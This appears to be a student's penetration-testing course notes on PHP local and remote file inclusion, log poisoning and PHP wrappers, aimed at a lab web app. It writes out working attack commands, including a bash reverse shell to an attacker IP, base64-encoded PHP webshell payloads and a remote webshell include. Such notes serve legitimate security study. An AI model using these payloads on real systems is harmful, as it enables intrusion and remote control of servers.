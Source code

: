 LFI aims to include executable code in the web app's running code. When we navigate to that file, we are able to specify variables to run that code! This is different compared to Directory Traversal which allows us to read CONTENTS of files on the web server.

We can even obtain RCE via [_Log Poisoning_](https://owasp.org/www-community/attacks/Log_Injection).
```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
*This shows that User Agent Header is stored in the access log.*

![[Pasted image 20250703160914.png]]
*We can use Burp to include malicious PHP code that will execute in the access.log file!*
	This snippet accepts a command via the _cmd_ parameter and executes it via the PHP [_system_](https://www.php.net/manual/en/function.system.php) function on the target system. We'll use [_echo_](https://www.php.net/manual/en/function.echo.php) to display command output.

![[Pasted image 20250703161014.png]]
`&cmd=[command]` allows us to make the server execute some code such as a reverse shell. that would be `&cmd=bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`. This is our bash **reverse shell one liner**.

We can also encode this and it would look like `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22`

NOTE that we can also do this on Windows but file paths are application dependent. We could also use system that don't use PHP but one of the following:
- [_Perl_](https://www.perl.org/)
- [_Active Server Pages Extended_](https://en.wikipedia.org/wiki/ASP.NET)
- [_Active Server Pages_](https://en.wikipedia.org/wiki/Active_Server_Pages)
- [_Java Server Pages_](https://en.wikipedia.org/wiki/Jakarta_Server_Pages)

# PHP Wrappers

Syntax in PHP that allows it to include additional capabilities to inputs. There are 2 main wrappers that we are concerned with that is `php://filter/...` and `php://data/...`. These can be further customized with additional syntax. 

`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`
	This does not do any filtering and is equivalent to using no parameters in a function.

`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
	This would ask php to read the content of admin.php and convert its contents to base64.

*While the **php://filter** wrapper can be used to include the contents of a file, we can use the **data://** wrapper to achieve code execution.*

`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"` 
	This embeds our malicious php to the page and then runs it! (if php has this vulnerability).  [_Allow_url_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled.

`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`
	If there are firewalls in place, we can encode our data to be embedded and executed in base64.

# Remote File Inclusion

Less common than LFI but also need [_Allow_url_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting to be enabled. We can find webshell inbuilt in Kali in `/usr/share/webshells`. `simple-backdoor.php` is the webshell for php. `cat`ing this would also show how it's used!

 While LFI vulnerabilities can be used to include local files, RFI vulnerabilities allow us to include files from a remote system over [_HTTP_](https://developer.mozilla.org/en-US/docs/Web/HTTP) or [_SMB_](https://en.wikipedia.org/wiki/Server_Message_Block). The included file is also executed in the context of the web application.

![[Pasted image 20250703164023.png]]

`python3 -m http.server` to host current directory (which has webshell)
	We can then do `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"` 

3 main types. First is uploading uploading a malicious script so it is executed on the web app. Second is combining it with another vulnerability like directory traversal to execute the file. Third is dependent on user interaction like uploading a .docx file with malicious macros.
